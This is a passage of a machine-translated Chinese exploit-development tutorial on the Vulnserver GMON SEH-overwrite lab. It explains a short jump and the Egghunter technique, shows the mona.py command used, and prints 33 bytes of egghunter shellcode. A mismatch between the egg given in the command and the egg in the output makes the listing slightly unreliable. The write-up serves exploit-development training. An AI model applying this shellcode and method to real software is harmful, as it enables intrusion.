 短 JMP

短跳之后，我们会有下面的 49 个字节可以玩。这也没有足够的空间来介绍我们的绑定/反向外壳代码；然而，我们可以利用一个叫做 Egghunter 的很酷的小工具跳到另外一个更大的地方。(如果你想知道 Egghunter 是什么，请在这里看看我之前关于 Egghunter 的一篇博文[。)让我们在继续下一步之前更新我们的 PoC 脚本。](https://medium.com/@bigb0ss/expdev-winamp-5-12-exploitation-using-egghunter-6efb2c8a863b)

![](img/cbce5cec2b68b00ea2f16ba012f54e4c.png)

来源:[short-jmp _ gmon . py by bigboss](https://github.com/bigb0sss/OSCE/blob/master/vulnserver/GMON%20-%20SEH%20Overwrite/short-jmp_gmon.py)

## 鸡蛋猎人

基本上 Egghunter 要做的是，只要我们把我们选择的 egg(例如，`b0ss`)放到堆栈上，Egghunter 就会迭代内存空间来寻找我们的 egg 并跳转到那里。这是非常性感的技巧，也是从受限空间逃到更大空间的简单方法。让我们使用 mona.py 的`egg`命令创建 Egghunter 外壳代码。

```
**### Mona.py Generating Egghunter**
!py mona egg -t T00W             **# "-t" for your choice of the egg**[+] Egg set to b0ss
[+] Generating traditional 32bit egghunter code
[+] Preparing output file 'egghunter.txt'
    - (Re)setting logfile egghunter.txt
**[+] Egghunter  (33 bytes): 
"\xcc\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a"
"\x74\xef\xb8\x54\x30\x30\x57\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff"
"\xe7"**
```
